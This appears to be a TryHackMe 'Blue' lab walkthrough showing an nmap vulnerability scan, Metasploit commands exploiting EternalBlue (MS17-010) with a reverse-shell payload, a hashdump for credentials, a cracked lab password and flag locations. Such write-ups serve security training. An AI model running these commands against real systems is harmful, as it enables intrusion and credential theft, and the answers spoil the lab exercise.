 ````plaintext
# Blue Machine - TryHackMe Walkthrough

## Reconnaissance

### Nmap Scan
```bash
nmap -sV -vv --script vuln {machine_ip}
````

- Discovered open ports: 135, 139, 445, 3389, 49152, 49153, 49154, 49158, 49160.
- Identified services: MSRPC, netbios-ssn, Microsoft Windows 7-10 on port 445, and more.

## Initial Access

### Exploiting EternalBlue with Metasploit

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS {machine_ip}
set payload windows/x64/shell/reverse_tcp
run
```

- Exploited MS17-010 vulnerability to gain access.

## Privilege Escalation

```bash
ps
```

- Default payload automatically escalated privileges; no additional steps required.

## Password Cracking

```bash
hashdump
```

- Cracked password: `alqfna22`

## Finding Flags

1. **Flag 1:** `C` directory.
2. **Flag 2:** `system32/config` directory.
3. **Flag 3:** Documents directory.

## Conclusion

This guide covers Nmap scanning, exploiting EternalBlue with Metasploit, privilege escalation, password cracking, and finding flags in different directories. Always use these techniques responsibly and ethically.

```

```
